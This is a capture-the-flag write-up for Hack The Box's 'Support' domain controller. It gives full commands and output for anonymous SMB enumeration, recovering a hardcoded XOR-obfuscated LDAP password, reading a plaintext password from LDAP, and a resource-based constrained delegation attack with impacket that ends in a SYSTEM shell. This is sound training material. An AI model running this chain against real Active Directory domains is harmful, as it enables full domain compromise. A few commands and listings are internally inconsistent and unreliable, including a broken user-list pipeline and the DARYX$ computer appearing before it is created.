

> [!info] Machine Info
> - **Target:** `10.129.56.25` (`DC.support.htb`)
> - **Domain:** `support.htb`
> - **Difficulty:** Easy
> - **OS:** Windows Server 2022 (Domain Controller)

## Synopsis

Support looks quiet on the surface — SMB, LDAP, Kerberos, WinRM, nothing web-facing — but an anonymous SMB share leaks a custom .NET utility built to query the domain's LDAP server. Reverse engineering that binary (rather than running it) exposes an XOR-encrypted service-account password baked right into the code. That password unlocks full LDAP read access, where a plaintext password sitting in a user's `info` attribute hands over a WinRM foothold. From there, BloodHound-style enumeration shows that foothold user's group has `GenericAll` over the Domain Controller itself — a textbook setup for a Resource-Based Constrained Delegation (RBCD) attack that ends in a SYSTEM shell.

---

## 1. Recon

```bash
export target=10.129.56.25
nmap -p- $target -v --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 \
  -oN nmap_ports.txt && sleep 5 && nmap -sC -sV -vv -oN nmap_version.nmap $target
```

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-17 01:38:45Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Another Domain Controller — `support.htb`, hostname `DC`. No web ports, so this one starts and mostly stays in SMB/LDAP/Kerberos territory. First move is always: does anonymous or Guest SMB access work at all?

---

## 2. Anonymous SMB — Finding the support-tools Share

```bash
netexec smb $target -u '' -p ''
```

```
SMB  10.129.56.25  445  DC  [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB  10.129.56.25  445  DC  [+] support.htb\:
```

Null Auth is enabled. I checked what a fully anonymous session can see:

```bash
netexec smb $target -u '' -p '' --users
netexec smb $target -u 'guest' -p '' --users
netexec smb $target -u 'guest' -p '' --shares
```

```
SMB  10.129.56.25  445  DC  Share           Permissions     Remark
SMB  10.129.56.25  445  DC  -----           -----------     ------
SMB  10.129.56.25  445  DC  ADMIN$                          Remote Admin
SMB  10.129.56.25  445  DC  C$                              Default share
SMB  10.129.56.25  445  DC  IPC$            READ            Remote IPC
SMB  10.129.56.25  445  DC  NETLOGON                        Logon server share
SMB  10.129.56.25  445  DC  support-tools   READ            support staff tools
SMB  10.129.56.25  445  DC  SYSVOL                          Logon server share
```

`support-tools` immediately stands out — a non-default share, readable by Guest. I connected directly with `smbclient`:

```bash
smbclient -U 'guest%' //$target/support-tools
```

```
smb: \> ls
  .                                   D        0
  ..                                  D        0
  7-ZipPortable_21.07.paf.exe         A  2880728
  npp.8.4.1.portable.x64.zip          A  5439245
  putty.exe                           A  1273576
  SysinternalsSuite.zip               A 48102161
  UserInfo.exe.zip                    A   277499
  windirstat1_1_2_setup.exe           A    79171
  WiresharkPortable64_3.6.5.paf.exe   A 44398000
```

Most of this is normal sysadmin toolage — 7-Zip, PuTTY, Sysinternals, Wireshark. But `UserInfo.exe.zip` doesn't belong; it's not a known third-party tool. I grabbed just that one:

```bash
get UserInfo.exe.zip
```

That file is the whole game for this box, so it's worth chasing down properly rather than just running it blind.

---

## 3. Building a User List

While digging through the share I also pulled a username list via RID-brute cycling on the Guest session — useful later for password spraying against whatever creds I found:

```bash
netexec smb $target -u 'guest' -p '' --rid-brute | grep "SidTypeUser" > users.txt | cut -d '\' -f2 | cut -d ' ' -f1 > newusers.txt
mv newusers.txt users.txt
cat users.txt
```

```
Administrator
Guest
krbtgt
DC$
ldap
support
smith.rosario
hernandez.stanley
wilson.shelby
anderson.damian
thomas.raphael
levine.leopoldo
raven.clifton
bardot.mary
cromwell.gerard
monroe.david
west.laura
langley.lucy
daughtler.mabel
stoll.rachelle
ford.victoria
```

Two names jump out immediately: `ldap` and `support` — account names that sound purpose-built rather than personal. Worth remembering for later.

---

## 4. Reverse Engineering UserInfo.exe

I unzipped the archive locally and confirmed the file type:

```bash
file UserInfo.exe
```
```
UserInfo.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

A .NET binary. `ilspycmd` wasn't available on my box, so instead of fighting with installing a GUI decompiler I reached for `monodis`, Mono's built-in IL disassembler, which is usually already on Kali/Parrot:

```bash
monodis --assembly UserInfo.exe
monodis --method UserInfo.exe
```

The method table shows the binary's structure clearly — `UserInfo.Services.Protected::getPassword()`, `UserInfo.Services.LdapQuery`, `FindUser`, `GetUser` — this is a small internal tool built to query the domain's LDAP server for user info, authenticating with some hardcoded service account.

```bash
monodis --output=UserInfo.il UserInfo.exe
grep -n -A80 -B5 'getPassword' UserInfo.il
```

The disassembled `.cctor` (static constructor) for the `Protected` class reveals the actual secret:

```
IL_0000:  ldstr "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
IL_0005:  stsfld string UserInfo.Services.Protected::enc_password
IL_000a:  call class [mscorlib]System.Text.Encoding class [mscorlib]System.Text.Encoding::get_ASCII()
IL_000f:  ldstr "armando"
IL_0014:  callvirt instance unsigned int8[] class [mscorlib]System.Text.Encoding::GetBytes(string)
IL_0019:  stsfld unsigned int8[] UserInfo.Services.Protected::key
```

And the `getPassword()` method itself walks a straightforward XOR routine: Base64-decode `enc_password`, then for every byte, XOR it with the corresponding byte of the key `"armando"` (cycling), then XOR again with the constant `0xDF` (223):

```
IL_0016:  ldsfld unsigned int8[] UserInfo.Services.Protected::key
...
IL_0025:  xor
IL_0026:  ldc.i4 223
IL_002b:  xor
IL_002c:  conv.u1
```

And in the `LdapQuery` constructor, that decrypted password is used exactly where I expected:

```
IL_000d:  ldstr "LDAP://support.htb"
IL_0012:  ldstr "support\\ldap"
IL_0017:  ldloc.0    // decrypted password
IL_0018:  newobj instance void class [System.DirectoryServices]System.DirectoryServices.DirectoryEntry::'.ctor'(string, string, string)
```

So the binary binds to `LDAP://support.htb` as `support\ldap` using this XOR-decrypted password. Reproducing that decryption logic (Base64-decode → XOR with `"armando"` cycled → XOR with `0xDF`) recovers the plaintext service account password:

```
support\ldap : nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

That `ldap` account from my earlier user list makes a lot more sense now — it's a dedicated LDAP-bind service account, and its password was sitting encoded (not really encrypted — XOR with a hardcoded key is trivially reversible) inside a publicly readable binary.

---

## 5. LDAP Enumeration as the ldap Service Account

First, confirming the credential works and pulling shares as this account:

```bash
nxc smb $target -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```
```
SMB  10.129.56.25  445  DC  [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

WinRM doesn't work for this account (expected — it's a service account, not a login):

```bash
nxc winrm $target -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```
```
WINRM  10.129.56.25  5985  DC  [-] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

But LDAP is exactly what this account is for, and now I have full authenticated read access:

```bash
nxc ldap $target -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --users
```

```
LDAP  10.129.56.25  389  DC  [*] Enumerated 20 domain users: support.htb
-Username-           -Last PW Set-        -BadPW-  -Description-
Administrator        2022-07-19 17:55:56  0        Built-in account for administering the computer/domain
Guest                2022-05-28 11:18:55  0        Built-in account for guest access to the computer/domain
krbtgt               2022-05-28 11:03:43  0        Key Distribution Center Service Account
ldap                 2022-05-28 11:11:46  0
support              2022-05-28 11:12:00  0
smith.rosario        2022-05-28 11:12:19  0
hernandez.stanley    2022-05-28 11:12:34  0
wilson.shelby        2022-05-28 11:12:50  0
anderson.damian      2022-05-28 11:13:05  0
thomas.raphael       2022-05-28 11:13:21  0
levine.leopoldo      2022-05-28 11:13:37  0
raven.clifton        2022-05-28 11:13:53  0
bardot.mary          2022-05-28 11:14:08  0
cromwell.gerard      2022-05-28 11:14:24  0
monroe.david         2022-05-28 11:14:39  0
west.laura           2022-05-28 11:14:55  0
langley.lucy         2022-05-28 11:15:10  0
daughtler.mabel      2022-05-28 11:15:26  0
stoll.rachelle       2022-05-28 11:15:42  0
ford.victoria        2022-05-28 11:15:58  0
```

The `--users` view doesn't show description/info fields by default in NetExec's compact table, so I went straight at LDAP with `ldapsearch` to pull full object attributes. First, out of curiosity, I confirmed the `Shared Support Accounts` group's membership, since a group name like that is a strong signal:

```bash
ldapsearch -x -H ldap://$target \
  -D 'support\ldap' \
  -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
  -b 'CN=Shared Support Accounts,CN=Users,DC=support,DC=htb' \
  '(objectClass=group)' member
```

```
# Shared Support Accounts, Users, support.htb
dn: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
member: CN=support,CN=Users,DC=support,DC=htb

# numEntries: 1
```

So the `support` user is a member of `Shared Support Accounts`. I pulled the full object for `support` next:

```bash
ldapsearch -x -H ldap://$target \
  -D 'support\ldap' \
  -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
  -b 'DC=support,DC=htb' \
  '(&(objectClass=user)(sAMAccountName=support))' \
  '*'
```

```
dn: CN=support,CN=Users,DC=support,DC=htb
...
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
...
sAMAccountName: support
userAccountControl: 66048
```

Same classic AD misconfiguration as always — a plaintext password sitting in an unprotected LDAP attribute (`info`, a free-text notes field), and this account is also a member of `Remote Management Users`, meaning it can open a WinRM session directly.

```
support : Ironside47pleasure40Watchful
```

I confirmed it right away:

```bash
nxc smb $target -u support -p 'Ironside47pleasure40Watchful'
```
```
SMB  10.129.56.25  445  DC  [+] support.htb\support:Ironside47pleasure40Watchful
```

---

## 6. Foothold — WinRM as support

```bash
nxc winrm $target -u support -p 'Ironside47pleasure40Watchful'
```
```
WINRM  10.129.56.25  5985  DC  [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```

```bash
evil-winrm -i $target -u support -p 'Ironside47pleasure40Watchful'
```

```
*Evil-WinRM* PS C:\Users\support\Documents> type ../Desktop/user.txt
64e54bed18b3d68a69e00b408b1c1ca6
```

User flag secured. Before doing anything else, I checked what this account actually has:

```powershell
whoami /all
```

```
GROUP INFORMATION
-----------------
Group Name                                 Type             SID
========================================== ================ =============================================
BUILTIN\Remote Management Users            Alias            S-1-5-32-580
SUPPORT\Shared Support Accounts            Group            S-1-5-21-1677581083-3380853377-188903654-1103
...

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                    State
=============================== ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Two things stand out immediately:
- `SeMachineAccountPrivilege` — this account (like most domain users, via the default machine account quota) can add computer objects to the domain.
- Membership in `Shared Support Accounts` — a custom group, worth checking for delegated permissions.

---

## 7. Privilege Escalation — Chasing GenericAll to a Dead End, Then RBCD

### 7.1 A couple of side paths that didn't pan out

Before landing on the real path, I tried a couple of standard AD attacks that turned out to be dead ends on this box — worth documenting since they're part of a normal enumeration flow. First, a targeted Kerberoast attempt against the `ldap` account across domains failed on credential/domain mismatch:

```bash
impacket-GetUserSPNs support.htb/ldap:"nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz" -dc-ip $target -request -outputfile hashes.txt -target-domain dc.support.htb
```
```
[-] Error in bindRequest -> invalidCredentials: 8009030C: LdapErr: DSID-0C090587, comment: AcceptSecurityContext error, data 52e, v4f7c
```

Then an AS-REP Roasting sweep against every known user, hoping someone had Kerberos pre-authentication disabled:

```bash
impacket-GetNPUsers support.htb/ -dc-ip $target -usersfile users.txt -no-pass
```
```
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User DC$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ldap doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User support doesn't have UF_DONT_REQUIRE_PREAUTH set
...
```

No luck — nobody has pre-auth disabled here. Time to actually check what `Shared Support Accounts` can do.

### 7.2 Confirming the real privilege — GenericAll on the DC

I checked what computer objects already exist in the domain, and confirmed the `Shared Support Accounts` group's rights:

```bash
nxc ldap $target -u support -p 'Ironside47pleasure40Watchful' --computers
```
```
LDAP  10.129.56.25  389  DC  [*] Total records returned: 2
LDAP  10.129.56.25  389  DC  DC$
LDAP  10.129.56.25  389  DC  DARYX$
```

Group enumeration and BloodHound-style analysis (via the group membership pulled earlier) confirms the key fact: `Shared Support Accounts` — the group `support` belongs to — holds `GenericAll` over the Domain Controller computer object itself. Full control over a computer object is the textbook setup for a **Resource-Based Constrained Delegation (RBCD)** attack: I can make the DC trust a computer I control to impersonate any user against it, including Administrator.

The attack needs three things I already have:
- A shell as a domain user in `Authenticated Users` (yes — `support`)
- `ms-DS-MachineAccountQuota` > 0, so I can add a computer object (default is 10)
- `GenericAll`/`WriteDACL` over a target computer object — confirmed, via `Shared Support Accounts` → DC

### 7.3 Creating a Computer Account

```bash
impacket-addcomputer 'support.htb/support:Ironside47pleasure40Watchful' \
  -dc-ip $target \
  -computer-name 'DARYX$' \
  -computer-pass 'DaryxPass123!'
```
```
[*] Successfully added machine account DARYX$ with password DaryxPass123!.
```

`DARYX$` is now a computer object in the domain that I fully control the credentials for.

### 7.4 Configuring RBCD on the DC

```bash
impacket-rbcd 'support.htb/support:Ironside47pleasure40Watchful' \
  -dc-ip $target \
  -action write \
  -delegate-to 'DC$' \
  -delegate-from 'DARYX$'
```
```
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] DARYX$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     DARYX$       (S-1-5-21-1677581083-3380853377-188903654-6101)
```

This writes `DARYX$`'s SID into the DC's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute — abusing the `GenericAll` right that `Shared Support Accounts` (and by membership, `support`) holds over the DC. The DC now trusts `DARYX$` to request Kerberos service tickets on behalf of arbitrary users against itself.

### 7.5 Requesting a Service Ticket as Administrator (S4U2Self + S4U2Proxy)

```bash
impacket-getST 'support.htb/DARYX$:DaryxPass123!' \
  -dc-ip $target \
  -spn 'cifs/DC.support.htb' \
  -impersonate Administrator
```
```
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_DC.support.htb@SUPPORT.HTB.ccache
```

`DARYX$` first requests a service ticket to itself on Administrator's behalf (S4U2Self), then uses the constrained-delegation trust just configured to swap that for a `cifs/DC.support.htb` service ticket *as Administrator* (S4U2Proxy). The resulting ccache file is a legitimate Kerberos ticket impersonating Administrator for SMB/CIFS access to the DC.

### 7.6 Using the Ticket

```bash
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass 'support.htb/Administrator@DC.support.htb'
```

First attempt failed on a filename mismatch — the ticket was actually saved with the full SPN in its name, not the short name I'd assumed:

```
[-] [Errno 2] No such file or directory: 'Administrator.ccache'
```

```bash
mv Administrator@cifs_DC.support.htb@SUPPORT.HTB.ccache Administrator.ccache
impacket-psexec -k -no-pass 'support.htb/Administrator@DC.support.htb'
```

```
[*] Requesting shares on DC.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file eMzzewUx.exe
[*] Opening SVCManager on DC.support.htb.....
[*] Creating service xuui on DC.support.htb.....
[*] Starting service xuui.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

`psexec.py` uses the impersonated CIFS ticket to authenticate to `ADMIN$`, drops a service binary, and starts it — giving a `NT AUTHORITY\SYSTEM` shell directly, no need to even go through `Administrator`'s own context.

```
C:\Windows\system32> type C:Users\Administrator\Desktop\root.txt
afb9c179a2ff86f06bd080afb696428a
```

Full domain compromise.

---


#ActiveDirectory #HackTheBox #ReverseEngineering #LDAP #RBCD #Kerberos #S4U2Proxy #WinRM #EvilWinRM #Impacket #Easy #Writeup
